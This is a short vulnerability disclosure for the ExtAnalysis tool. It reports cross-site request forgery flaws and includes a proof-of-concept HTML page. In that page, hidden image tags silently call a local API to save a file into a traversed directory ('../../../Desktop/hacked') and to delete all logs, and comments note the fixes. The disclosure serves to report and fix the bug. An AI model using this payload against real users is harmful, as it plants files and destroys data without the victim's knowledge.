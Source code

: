 # Overview

The `ExtAnalysis` project is vulnerable against various CSRFs, that could lead to loss of functionalities and placement of malicious files in arbitrary directories without knowledge of the victim.

# Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Download the git project and run the server through the `python2 extanalysis.py` command
2. Insert on a malicious host the following code

```html
<html>
  <!-- Downloads the Gmass extension in the `Desktop` folder. Fix: avoid `../`   CSRF token -->
  <img
    src="http://127.0.0.1:13337/api/?query=dlanalysis&extid=ehomdgjhgmbidokdgicgmdiedadncbgf&savedir=../../../Desktop/hacked"
  />
  <!-- Deletes all the log without knowledge of the victim. Fix: add CSRF token -->
  <img src="http://127.0.0.1:13337/api/?query=deleteAll" />
</html>
```
